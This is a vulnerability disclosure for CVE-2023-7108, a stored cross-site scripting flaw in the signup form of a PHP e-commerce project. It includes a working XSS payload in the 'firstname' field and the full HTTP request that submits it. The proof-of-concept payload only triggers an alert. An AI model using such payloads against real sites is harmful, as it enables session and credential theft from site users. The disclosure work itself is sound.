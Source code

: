 # CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Exploit Title:** CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7108

## References: 
+ **CVE-2023-7108:** https://vuldb.com/?id.249003
+ https://www.cve.org/CVERecord?id=CVE-2023-7108

## Description:
E-Commerce Website 1.0 allows Stored Cross-site Scripting via parameter 'firstname' in "Electricks/Electricks-shop/pages/user_signup.php".
E-Commerce Website is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. 
This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill First name with this payload: `<video/src=x onerror=alert(document.domain)>`
+ Fill the the all form and click Create Account button.
+ Then navigate to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
+ Then XSS will be triggered permanently.
+ Refresh and alert will continue to pop-up.
+ Example request for 'firstname' parameter:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
Cookie: PHPSESSID=8imurtv40ut9ah7s8bk6auen4i
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

firstname=%3Cvideo%2Fsrc%3Dx+onerror%3Dalert%28document.domain%29%3E&middlename=test3&lastname=test3&email=test3&address=test3&contact=test3&username=test3&password=test&submit=
```
+ Go to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/931dcbe2-fc38-44ad-b314-a080f8a60cd0)
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/753e20c4-eef8-4655-bc3f-869370c08d24)
